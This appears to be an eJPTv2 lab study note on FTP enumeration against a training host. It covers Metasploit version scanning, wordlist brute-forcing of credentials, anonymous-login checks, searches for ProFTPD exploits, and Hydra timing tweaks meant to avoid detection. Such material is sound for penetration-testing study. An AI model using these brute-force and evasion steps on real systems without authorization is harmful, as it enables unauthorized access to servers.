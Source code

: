 ```yaml
---
{"dg-publish":true,"permalink":"/e-jptv-2/ftp-enumeration/","title":"FTP Enumeration - eJPTv2","tags":["ejptv2","nmap"]}
---
```


### Notes: FTP Enumeration with Metasploit

---

#### **Overview**

FTP (File Transfer Protocol) is a standard protocol used to transfer files between systems over a network. It operates on a client-server model, where the client initiates a connection to the server for file operations.

In this lab, we will explore **FTP enumeration** using the **Metasploit Framework** to gather information about the target FTP server and test for vulnerabilities.

---

### **Step-by-Step Guide**

---

#### **1. Verify Target Accessibility**

Ensure the target machine is reachable by performing a ping test.

**Command:**

```bash
ping -c 4 demo.ine.local
```

- The `-c 4` option sends 4 packets to the target host.
- A successful response confirms that the target is reachable.

---

#### **2. Launch Metasploit Framework**

Start the Metasploit console to begin enumeration.

**Command:**

```bash
msfconsole
```

---

#### **3. Identify the FTP Service Version**

Use the **`ftp_version`** module in Metasploit to identify the FTP server's version.

**Commands:**

```bash
use auxiliary/scanner/ftp/ftp_version
set RHOSTS demo.ine.local
run
```

- **`use auxiliary/scanner/ftp/ftp_version`**: Loads the FTP version scanner module.
- **`set RHOSTS demo.ine.local`**: Sets the target machine.
- **`run`**: Executes the module.

The result reveals the FTP server version. Example: `ProFTPD 1.3.5a`.

---

#### **4. Perform Brute-Force to Find FTP Credentials**

Load the **`ftp_login`** module to perform brute force and identify valid credentials.

**Commands:**

```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

- **`set USER_FILE`**: Specifies the wordlist for usernames.
- **`set PASS_FILE`**: Specifies the wordlist for passwords.
- The result identifies valid credentials, e.g., `sysadmin:654321`.

---

#### **5. Test for Anonymous Logins**

Check if the FTP server allows anonymous access.

**Commands:**

```bash
use auxiliary/scanner/ftp/anonymous
set RHOSTS demo.ine.local
run
```

- If anonymous logins are disabled, the module will indicate this.

---

#### **6. Log in to the FTP Server**

Use the obtained credentials to log in to the FTP server.

**Command:**

```bash
ftp demo.ine.local
```

- Provide the username (`sysadmin`) and password (`654321`) when prompted.

Successful authentication grants access to the FTP server.

---

### **Conclusion**

In this lab, we:

- Verified the target machine's accessibility.
- Used Metasploit to enumerate the FTP service and identify its version.
- Performed brute-force to retrieve valid credentials.
- Tested for anonymous login capability.
- Logged into the FTP server using the identified credentials.

---

### **Advanced Techniques and Insights**

---

#### **1. Manual Enumeration Techniques**

If Metasploit is unavailable, manual enumeration can be performed:

- **Banner Grabbing**: Use `telnet` or `nc` to fetch the FTP banner. **Command:**
    
    ```bash
    nc demo.ine.local 21
    ```
    
- **Command Response Testing**: Use `ftp` command-line tool and attempt anonymous login manually:
    
    ```bash
    ftp demo.ine.local
    ```
    
    Enter `anonymous` as the username and any password.

---

#### **2. Exploitation of Vulnerabilities**

Certain versions of FTP servers (e.g., ProFTPD) may have vulnerabilities:

- Search for known exploits in Metasploit: **Command:**
    
    ```bash
    search proftpd
    ```
    
- Use exploit modules if available.

---

#### **3. Custom Wordlists**

Improve brute-force accuracy by using customized wordlists:

- **Create User Wordlist:**
    
    ```bash
    echo -e "admin\nuser\nsysadmin" > users.txt
    ```
    
- **Create Password Wordlist:**
    
    ```bash
    echo -e "123456\npassword\n654321" > passwords.txt
    ```
    

---

#### **4. Logging FTP Activity**

Capture FTP traffic for further analysis using tools like Wireshark or tcpdump.

**Command:**

```bash
tcpdump -i eth0 port 21 -w ftp_traffic.pcap
```

---

#### **5. Bypassing Brute-Force Protections**

- Use **timing options** to slow down brute force and avoid detection. Example: Hydra with delay:
    
    ```bash
    hydra -l sysadmin -P passwords.txt ftp://demo.ine.local -t 1 -w 5
    ```
    
    The `-t 1` sets one thread, and `-w 5` adds a 5-second delay.

---

#### **6. Further Analysis with Nmap**

Nmap scripts for FTP can provide additional insights: **Command:**

```bash
nmap -p 21 --script=ftp-* demo.ine.local
```

---

These advanced techniques supplement the basic enumeration process, providing deeper insights and enhancing your approach to FTP penetration testing. Let me know if you'd like to expand or tweak any section!